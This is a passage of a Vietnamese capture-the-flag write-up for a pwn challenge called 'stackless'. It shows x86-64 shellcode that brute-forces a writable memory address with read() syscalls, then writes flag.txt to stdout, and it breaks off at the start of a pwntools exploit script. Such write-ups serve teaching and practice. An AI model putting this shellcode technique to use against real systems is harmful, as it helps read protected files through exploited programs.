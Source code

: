 ta sẽ trừ đi 8 là sẽ trỏ đến được flag.txt

![hehe](/assets/images/blabla.png)

- tiếp theo ta cần 1 địa chỉ để đọc flag từ read() , ở đây PIE bật và không có địa chỉ nào trên thanh ghi và stack để ta có thể lấy , nếu ta sử dụng stack thì ```rax``` sẽ trả về ```0xfffffffffffffff2``` , đó là errno 14 hoặc bad address vì vùng đó có thể là vùng không thể ghi vào , vì vậy ta sẽ brute_force đến khi nào có 1 địa chỉ hợp lệ như sau : 

```
mov rsi,0x7ff000000000
cmp_loop:
add rsi,0x1000
mov rax,0
mov rdi,3
mov rdx,0x100
syscall 
cmp rax,0xfffffffffffffff2 ; ta sẽ check ở đây
je cmp_loop
```

- cuối cùng là write 

```
mov rdi,1
mov rax,1
syscall
```

enjoy flag ^^

![kaka](/assets/images/flag.10.png)

script 

lưu ý là nếu ta không ghi flag: như trong shellcode thì ta có thể cộng trừ như ở trên 
```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./stackless',checksec=False)
libc = exe.libc
p = process()

"""
gdb.attach(p,gdbscript='''
           brva 0x0000000000001833
           ''')
```